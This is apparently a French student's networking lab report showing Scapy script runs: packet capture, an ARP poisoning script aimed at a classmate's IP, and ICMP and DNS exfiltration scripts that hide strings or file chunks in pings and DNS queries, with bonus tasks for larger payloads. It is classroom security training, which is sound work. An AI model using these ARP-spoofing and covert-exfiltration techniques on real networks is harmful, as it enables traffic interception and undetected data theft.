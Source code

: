 # TP4 SECU : Exfiltration

# Sommaire

- [TP4 SECU : Exfiltration](#tp4-secu--exfiltration)
- [Sommaire](#sommaire)
- [I. Getting started Scapy](#i-getting-started-scapy)
- [II. ARP Poisoning](#ii-arp-poisoning)
- [II. Exfiltration ICMP](#ii-exfiltration-icmp)
- [III. Exfiltration DNS](#iii-exfiltration-dns)

# I. Getting started Scapy

🌞 **`ping.py`**

J'ai ping le pc d'Alan car on ne peut pas ping la passerelle d'Ynov :x

```
PS C:\Users\maxfe\TP_Reseaux_B2> python.exe .\ping.py
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
Pong reçu : QueryAnswer(query=<Ether  dst=98:3b:8f:b4:db:38 src=84:14:4D:10:5E:AF type=IPv4 |<IP  frag=0 proto=icmp src=10.33.76.218 dst=10.33.77.246 |<ICMP  type=echo-request |>>>, answer=<Ether  dst=84:14:4d:10:5e:af src=98:3b:8f:b4:db:38 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=28 id=32774 flags= frag=0 ttl=64 proto=icmp chksum=0x4bc9 src=10.33.77.246 dst=10.33.76.218 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 |>>>)
```

🌞 **`tcp_cap.py`**

```
PS C:\Users\maxfe\TP_Reseaux_B2> python.exe .\tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 10.33.76.218
- Adresse IP dst : 162.159.133.234
- Port TCP src : 12283
- Port TCP dst : 443
```

🌞 **`dns_cap.py`**

```
fmaxance@ZeyKiiPC:~$ dig ynov.com

; <<>> DiG 9.18.19-1~deb12u1-Debian <<>> ynov.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 47655
;; flags: qr rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;ynov.com.                      IN      A

;; ANSWER SECTION:
ynov.com.               300     IN      A       104.26.10.233
ynov.com.               300     IN      A       172.67.74.226
ynov.com.               300     IN      A       104.26.11.233

;; Query time: 23 msec
;; SERVER: 8.8.8.8#53(8.8.8.8) (UDP)
;; WHEN: Tue Nov 28 09:31:12 CET 2023
;; MSG SIZE  rcvd: 85
```

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 dns_cap.py
104.26.10.233
```

🌞 **`dns_lookup.py`**

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 dns_lookup.py 
Ether / IP / UDP / DNS Ans "104.26.10.233"
```

# II. ARP Poisoning

🌞 **`arp_poisoning.py`**

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 arp_poisoning.py
Enter the victims ip: 10.33.74.177
.
Sent 1 packets.
```

# II. Exfiltration ICMP

🌞 **`icmp_exf_send.py`**

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 icmp_exf_send.py 10.1.1.1 j
.
Sent 1 packets.
Payload 'j' envoyé avec succès à 10.1.1.1.
```

![icpm](images/icmp_exf_send.png)

🌞 **`icmp_exf_receive.py`**

Depuis le pc de doniban :

```
python3 icmp_exf_send.py 10.33.73.20 meow
```

Sur mon pc:

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 icmp_exf_receive.py
Sniffing en cours...
Caractère caché: meow
```

⭐ **Bonus 1 easy :**

- **`icmp_exf_send_b1.py`** et **`icmp_exf_receive_b1.py`**
- parce que là, bon envoyer "j" ça sert à rien
- faites en sorte que ça fonctionne peu importe la longueur de la string passée en argument du script `icmp_exf_send_b1.py`
  - bah oui le padding il a une taille limitée...
  - quelle taille ? [See une bonne doc](https://www.freesoft.org/CIE/Course/Section3/7.htm)
  - il va falloir donc couper la string en plusieurs morceaux, et envoyer plusieurs pings !
- le programme qui reçoit `icmp_exf_receive_b1.py` doit reconstruire le message à partir de tous les pings qu'il reçoit
  - **il affiche toujours uniquement la string cachée**, rien d'autre
- on doit donc pouvoir faire des trucs comme :

```bash
# envoie une string cachée dans un ping vers 10.1.1.1
$ python icmp_exf_send_nolimit.py 10.1.1.1 "Coucou toi comment ça va broooooo"
```

⭐ **Bonus 2 hard : `icmp_exf_send_anything.py`**

- **`icmp_exf_send_b2.py`** et **`icmp_exf_receive_b2.py`**
- envoyez un fichier avec des ping
- faites simple pour les tests : créez un fichier de quelque Ko tout au plus (peu importe le format justement, on s'en fout)
- genre une fois que ça marche, on doit pouvoir envoyer des JPEG avec des ping
- c'est la même idée que la string : fragmenter le JPEG en p'tits morceaux, envoyer, reconstituer de l'autre côté

# III. Exfiltration DNS

🌞 **`dns_exfiltration_send.py`**

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 dns_exfiltration_send.py 10.1.1.1 toto
Partie 1/1 exfiltrée avec succès vers 10.1.1.1.
```

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 dns_exfiltration_send.py 10.1.1.1 totototototototototototo
Partie 1/2 exfiltrée avec succès vers 10.1.1.1.
Partie 2/2 exfiltrée avec succès vers 10.1.1.1.
```

![DNS](images/dns_exfiltration_send.png)

⭐ **Bonus 3 mid : `dns_exfiltration_send.py`**

- en dernier bonus : mettez en place le code qui reçoit votre exfiltration DNS
- il n'affiche que les strings cachées dans les requêtes reçues

![DNS exfiltration](./img/dns_exf.jpg)